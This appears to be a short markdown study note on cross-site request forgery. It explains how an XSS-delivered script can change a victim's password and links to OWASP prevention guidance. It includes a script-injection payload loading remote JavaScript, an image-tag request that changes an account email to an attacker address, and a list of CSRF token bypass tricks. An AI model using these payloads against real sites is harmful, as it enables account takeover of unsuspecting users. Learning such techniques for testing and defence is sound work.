 [[CSRF]]
`CSRF` attacks may utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the `JavaScript` `CSRF` payload), the `JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

```html
"><script src=//www.example.com/exploit.js></script>
```


##### Prevention
https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html

##### Deliver
GET:
`<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">`

POST: dedicated html page with form and js for auto submit

##### CSRF token bypass
* Can be omitted on GET requests
* Removing CSRF token skips validation
* CSRF token is not tied to the user session
* CSRF token is tied to a non-session cookie